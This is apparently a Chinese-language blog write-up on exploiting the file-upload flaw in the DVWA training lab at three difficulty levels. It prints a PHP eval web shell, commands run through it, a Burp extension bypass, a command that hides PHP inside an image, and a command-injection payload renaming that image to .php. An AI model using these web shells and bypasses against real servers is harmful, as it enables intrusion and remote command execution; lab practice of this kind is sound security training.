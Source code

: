```yaml
---
layout: post
title: 文件上传漏洞
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
published: true
---
```

### LOW

the.php

```php
<?php eval($_GET['bckdor'])?> 
```

构造url: <http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=>

```php
phpinfo(); 
system('ls'); 
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```

### MEDIUM

将the.php改为the.jpg

![image.png](https://img.ghostliner.top/vt5Xwv.png)

burpsuit抓取request，修改文件后缀

### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```

